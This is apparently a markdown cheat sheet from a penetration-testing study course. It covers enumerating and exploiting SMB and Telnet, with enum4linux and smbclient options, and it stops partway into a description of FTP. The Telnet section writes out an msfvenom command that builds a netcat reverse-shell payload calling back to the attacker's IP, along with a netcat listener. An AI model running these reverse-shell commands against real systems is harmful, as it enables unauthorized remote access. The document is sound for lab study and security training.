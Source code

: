 # Network Services

## SMB - Server Message Block Protocol -  
[SMB](https://searchnetworking.techtarget.com/definition/Server-Message-Block-Protocol) is a client-server communication protocol used for sharing access to files, printers, serial ports and other resources on a network.   

### Enumerating SMB
- Port Scanning
    nmap 
- Enum4Linux
    `enum4linux [options] [ip]`  
    `-U` get userlist  
    `-M` get machine list  
    `-N` get namelist dump (different from -U and-M)  
    `-S` get sharelist  
    `-P` get password policy information  
    `-G` get group and member list  
    `-a` all of the above (full basic enumeration)  

### Exploiting SMB
While there are vulnerabilities such as [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/) that can allow remote code execution by exploiting SMB, you're more likely to encounter a situation where the best way into a system is due to misconfigurations in the system.  
- SMBClient
    `smbclient //[IP]/[SHARE]`  
    `-U [name]` : to specify the user  
    `-p [port]` : to specify the port  

## Telnet
Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.  
`telnet [ip] [port]`  

### Exploit Telnet
- https://www.cvedetails.com/
- https://cve.mitre.org/  
However, you're far more likely to find a misconfiguration in how telnet has been configured or is operating that will allow you to exploit it.  
`sudo tcpdump ip proto \\icmp -i tun0`  
`"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"`  
`"nc -lvp [listening port]"`  

## FTP - File Transfer Protocol -
FTP is a protocol used to allow remote transfer of files over a network.  
A typical FTP session operates using two channels:
- a command (sometimes called the control) channel
- a data channel.  

